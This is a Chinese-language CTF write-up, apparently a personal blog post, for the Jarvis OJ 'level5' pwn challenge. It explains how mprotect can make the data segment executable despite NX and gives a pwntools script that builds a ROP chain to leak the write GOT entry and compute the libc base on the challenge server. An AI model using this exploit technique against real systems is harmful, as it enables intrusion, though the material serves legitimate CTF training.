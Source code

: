```yaml
---
layout:     post
title:      level5
subtitle:    level5
date:       2018-11-8
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
    - xman
---
```



> level5

# level5

## 这是关于mprotect的应用

首先关于**mprotect函数**

```c
#include <unistd.h>
#include <sys/mmap.h>
int mprotect(const void *start, size_t len, int prot)
```

**mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。** 

![1541645784475](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1541645784475.png)

可见打开了nx保护

所以应该是要用mprotect改data段到可执行，然后执行shellcode拿shell。 

程序执行后，vmmap查看data段的地址

![1541645937742](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1541645937742.png)

看到地址为***0x600000-0x601000***

我们还是先找到write函数的地址，进而计算libc的偏移地址。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
context.binary = "./level3_x64"
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]
elf = context.binary

io = remote("pwn2.jarvisoj.com", 9884)
libc = ELF("./libc-2.19.so")

prdi = 0x00000000004006b3
pprsi = 0x00000000004006b1
leak = flat(cyclic(0x80 + 8), prdi, 1, pprsi, elf.got['write'], 0, elf.plt['write'], elf.sym['_start'])
io.sendafter("Input:\n", leak)
libc.address = u64(io.recvuntil("\x7f")[-6: ] + '\0\0') - libc.sym['write']
success("libc -> {:#x}".format(libc.address))
```